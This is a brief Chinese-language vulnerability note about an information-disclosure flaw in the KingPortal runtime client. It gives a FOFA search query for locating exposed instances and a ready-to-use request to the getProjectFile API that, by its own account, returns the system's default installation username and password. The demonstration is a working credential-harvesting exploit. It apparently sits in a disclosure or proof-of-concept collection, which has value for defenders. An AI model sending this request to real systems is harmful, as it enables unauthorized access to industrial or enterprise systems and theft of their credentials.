

# KingPortal 运行系统客户端存在信息泄露

```
FOFA:
"KingPortal" && title=="KingPortal 运行系统客户端"
```

## 介绍

KingPortal 运行系统客户端存在信息泄露漏洞, 当访问特定 API 的请求时, 会返回对应的系统安装默认账号密码

## 演示

```
http://ip//getProjectFile?projectInfo={%22name%22:%22externalconfig%22,%22type%22:5}&_=1708943932003 
```




